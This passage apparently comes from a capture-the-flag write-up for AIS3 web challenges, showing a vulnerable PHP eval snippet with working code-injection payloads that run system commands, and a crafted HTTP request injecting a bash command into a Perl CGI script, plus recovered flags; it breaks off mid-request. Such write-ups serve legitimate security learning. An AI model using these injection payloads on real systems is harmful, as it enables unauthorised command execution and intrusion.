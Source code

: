 ``` python 
    if f != 'AIS3{NOT_A_VALID_FLAG}':
        print f
        raw_input('#')
```

![](https://i.imgur.com/2Pb23R7.png)

Thr flag is `AIS3{g00d_u_know_how_2_script_4_W3B_bdedc4e1a48c9769ac35b12f13dc4bbc}` 


## Web 3 - sushi
    Try some delicious sushi at

    http://104.199.235.135:31333/

- Source Code
``` php
<?php
// PHP is the best language for hacker
// Find the flag !!
highlight_file(__FILE__);
$_ = $_GET['🍣'];

if( strpos($_, '"') || strpos($_, "'") ) 
    die('Bad Hacker :(');

eval('die("' . substr($_, 0, 16) . '");');
```

#### 用 php code injection 繞過 php 限制。
- http://104.199.235.135:31333/?🍣={${system(ls)}}
- http://104.199.235.135:31333/?🍣=${@system(ls)}
- http://104.199.235.135:31333/?🍣=".\`$_GET[1]\`.";&1=ls

![](https://i.imgur.com/8Ef0CqK.png)
- http://104.199.235.135:31333/flag_name_1s_t00_l0ng_QAQQQQQQ
    
![](https://i.imgur.com/4hnzTd9.png)

The flag is `AIS3{php_is_very_very_very_easyyyyyy}`


## Web 4 - perljam
    I think that is a perfect web app.

    http://104.199.235.135:31334/

#### 有 [GitHack](https://github.com/lijiejie/GitHack) 漏洞，可以把[原始碼](/web4/GitHack)抓下來。
#### 可以從 Reference 看到原始碼有漏洞，嘗試製作封包。

#### Request 1
``` HTML
POST /cgi-bin/index.cgi?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1
Host: 104.199.235.135:31334
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=d6ef413399798aba40580af74aa4ed9001474100452
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1308552532609826431173673727
Content-Length: 475

-----------------------------1308552532609826431173673727
```